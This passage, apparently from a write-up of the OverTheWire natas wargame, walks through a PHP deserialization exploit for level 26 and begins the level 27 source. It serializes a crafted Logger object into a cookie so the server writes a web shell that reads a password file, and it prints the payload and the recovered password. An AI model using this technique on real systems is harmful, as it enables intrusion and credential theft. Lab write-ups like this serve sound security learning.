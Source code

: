 Then, unserialize:

` Array ( [0] => Array ( [x1] => 10 [y1] => 10 [x2] => 10 [y2] => 10 ) ) `

In source code, the class `Logger` do not used. Now we create `Logger` object by `natas26.php`, next serialize and base64 encode, then inject to cookie.

```php
<?php
// natas26.php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    function __construct()
    {
        // initialise variables
        $this->initMsg="BEGIN PASSWORD \n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27');?> \n END PASSWORD";
        $this->logFile = "img/test.php";
    }
}
$object = new Logger();
echo base64_encode(serialize($object));
?>
```

The above codes creates an object of class `Logger`. Creation of an object sends a call to `__construct()` function which executes our command and stores the result in img/test.php file.

```shell
php natas26.php

Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL3Rlc3QucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MTY6IkJFR0lOIFBBU1NXT1JEIAoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo3NjoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTs/PiAKIEVORCBQQVNTV09SRCI7fQ==
```

Change cookie `drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL3Rlc3QucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MTY6IkJFR0lOIFBBU1NXT1JEIAoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo3NjoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTs/PiAKIEVORCBQQVNTV09SRCI7fQ==`

Access to `http://natas26.natas.labs.overthewire.org/img/test.php` and get password:

```
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ END PASSWORD
```

### natas27

```php
<?

// morla / 10111
// database gets cleared every 5 min 


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link,$usr,$pass){
```